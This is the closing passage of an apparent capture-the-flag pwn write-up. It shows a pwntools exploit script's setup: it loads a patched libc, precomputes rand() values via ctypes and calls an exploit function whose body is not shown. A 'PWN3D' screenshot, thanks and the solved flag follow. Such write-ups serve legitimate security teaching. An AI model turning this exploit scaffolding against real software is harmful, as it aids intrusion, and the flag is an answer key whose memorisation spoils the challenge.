 ```python
        # libc = ELF("___")
        # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    libc = ELF("./libc.so.6") # patched
    cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
    rand_list = [cdll.rand() for _ in range(1000)]
    exploit(io, libc, cdll)
``` 
</details>

![PWN3D](images/c956b734b669a28dd17b60c550b2a461b28fc36b29defa114ab9cd5ad94df8e3.png)  

Special thanks to swusjask, lunashci and Zafirr for their asisst. orz

**Flag:** TCP1P{If_I_die_tomorrow_I'd_be_all_right_Because_I_believe_That_after_we're_gone_The_SPIRIT_carries_LIBC_0n_and_1-Just_want_to_s33_this_challenge_solved_by_Many_people_sorry_f0R_qu1t3_long_fl4g}

